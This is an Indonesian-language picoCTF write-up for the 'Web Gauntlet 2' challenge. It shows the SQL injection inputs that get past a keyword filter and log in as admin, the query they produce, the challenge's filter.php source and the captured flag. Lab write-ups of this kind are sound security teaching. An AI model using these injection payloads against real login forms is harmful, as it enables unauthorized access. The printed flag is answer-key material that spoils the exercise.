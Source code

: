 # Web Gauntlet 2
- Link: https://play.picoctf.org/practice/challenge/174?category=1&page=3

## Tantangan
This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:35178/ Filter: http://mercury.picoctf.net:35178/filter.php

## Penyelesaian
- Buka URL http://mercury.picoctf.net:35178/ di browser. Disini terlihat bahwa kita harus login menggunakan SQL Injection

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%202/assets/web%20gauntlet%201.JPG)

- Buka URL http://mercury.picoctf.net:35178/filter.php di browser untuk melihat input yang tidak diperbolehkan 

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%202/assets/web%20gauntlet%202.JPG)

- Dari sekian banyak input username dan password, kita bisa memasukkan input berikut untuk membypass login
```sh
username: adm'||'in
password: a' is not 'b
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%202/assets/web%20gauntlet%203.JPG)

- Dari inputan diatas akan terbentuk query sebagai berikut
```sh
SELECT username, password FROM users WHERE username='adm'||'in' AND password='a' is not 'b'
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%202/assets/web%20gauntlet%204.JPG)

- Sekarang kita buka URL http://mercury.picoctf.net:35178/filter.php untuk mendapatkan flag. Berikut adalah isi halaman setelah kita berhasil membypass login
```sh
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
?>
```
- Flag
```sh
picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
```